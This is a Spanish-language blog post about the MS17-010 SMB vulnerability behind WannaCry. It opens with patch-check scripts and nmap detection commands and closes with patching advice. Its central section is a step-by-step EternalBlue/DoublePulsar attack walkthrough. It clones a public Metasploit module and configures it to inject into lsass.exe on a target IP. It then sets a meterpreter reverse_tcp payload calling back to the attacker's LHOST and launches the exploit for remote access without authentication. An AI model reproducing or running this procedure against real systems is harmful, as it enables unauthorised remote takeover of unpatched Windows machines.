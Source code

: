 ```yaml
---
layout: post
title: "Parche contra el exploit de WannaCry y atacando con EternalBlue el exploit que uso WannaCry"
quote: "Hacking"
image:
      url:/assets/images/fondo.jpg
video: false
comments: true
theme_color: 302F2D
---
```

El vector de propagación del malware WANNACRY se vale de una vulnerabilidad en SMB, desde el 14 de marzo, Microsoft resolvió el problema 
a través del parche de seguridad MS17-010, para todas las versiones de Windows.

Empecemos por verificar si nuestro sistema está parcheado contra este exploit llamado EternalBlue, ten en cuenta que se vienen más 
ataques aprovechándose de esta vulnerabilidad.

Para eso descargamos el siguiente script que revisa los archivos de actualización en el sistema y busca aquellos correspondientes al 
parche de EternalBlue.
[Puedes descargar estes script desde este enlace](https://github.com/eset-la/Check-EternalBlue).
{% include image.html url="http://bit.ly/2pYjhUr" %}
{% include image.html url="http://bit.ly/2rj86tq" %}

Como segunda opción podemos usar el script NSE de Nmap para detectar equipos Windows vulnerables a la ejecución de código remoto ms17-010 
que el pasado domingo publicó nuestro buen amigo Calderpwn.
```
https://github.com/cldrn/nmap-nse-scripts/blob/master/scripts/smb-vuln-ms17-010.nse
```
Modo de uso:

-Para verificar que un equipo está parchado o no:

`$ nmap -p445 --script smb-vuln-ms17-010 <objetivo>`

-Para verificar que no tenga el implante DOUBLE PULSAR:

`$ nmap -p445 --script smb-double-pulsar-backdoor <objetivo>`

### EXPLOTANDO MS17-010

`ETERNALBLUE` es el nombre del exploit que le permite a WannaCrypt autoreplicarse y propagarse rápidamente por la red infectada. 
Al parecer, fue desarrollado por la NSA y pertenece a la lista de archivos filtrados por el grupo Shadow Brokers.

`ETERNALBLUE` es el único que puede ser usado para atacar Windows 7 y Windows Server 2008 sin necesidad de autenticación. Luego, podemos 
utilizar DOUBLEPULSAR para inyectar remotamente una DLL maliciosa en el equipo previamente atacado con ETERNALBLUE. Teniendo en cuenta que podemos inyectar la DLL que queramos, crearemos mediante Empire, una DLL maliciosa que realice una conexión inversa desde el equipo víctima hacia el equipo atacante.

Creamos una carpeta e ingresamos a este directorio desde la terminal y ponemos lo siguiente:
```
git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit.git
```
{% include image.html url="http://bit.ly/2rwjAXA" %}

Nos vamos al directorio donde hemos descargado el repositorio e ingresamos a la carpeta
{% include image.html url="http://bit.ly/2pQqYQy" %}

Copiamos el modulo (eternalblue_doublepusar.rb)  a metasploit,en la carpeta donde se encuentran los exploits para SMB de Windows.
{% include image.html url="http://bit.ly/2qXpGTZ" %}

Abrimos Metasploit, seleccionaremos el exploit que acabamos de añadir 

`use exploits/windows/smb/eternalblue_doublepulsar`  
Con show options nos mostrara los parámetros que le debemos de configurar:
{% include image.html url="http://bit.ly/2q1b6pE" %}

En los parámetros `DOUBLEPULSARPATH y ETERNALBLUEPATH` ponemos el directorio donde se encuentra la carpeta “deps” que hemos descargado previamente.

En `PROCESSINJECT` recibe el nombre del proceso donde va a ser inyectado en la máquina target el payload, si nuestro target es de x64 cambiamos el proceso wlms.exe a lsass.exe. Si el target es un x86, debemos dejarlo en wlms.exe.

En `RHOST` ponemos la IP de la máquina a atacar.

En `WINEPATH` ponemos el directorio donde se encuentra el “drive_c” de WINE.
{% include image.html url="http://bit.ly/2rwmfAD" %}


Ponemos el payload que vamos a utilizar:

`set payload windows/x64/meterpreter/reverse_tcp`
{% include image.html url="http://bit.ly/2pQaXd7" %}
Configuramos el payload con:
set `LHOST` ip del atacante
El puerto lo dejaremos por default en el 4444

Por ultimo lanzamos con exploit 
{% include image.html url="http://bit.ly/2qBOo9a" %}
Como verán ya hemos accedido al sistema Windows, solo requerimos la dirección IP de la víctima y nos devolverá una sesión de meterpreter.

### Recomendaciones

Si tu equipo es vulnerable [simplemente instala el parche](https://technet.microsoft.com/en-us/library/security/ms17-010.aspx).
{% include image.html url="http://bit.ly/2qBGOvi" %}

1.- Click en Windows Update

2.- Instalar actualizaciones 

3.-Antivirus actualizado

4.-No abrir archivos adjuntos en correos que no identifican! 

By Torres Happy Hacking

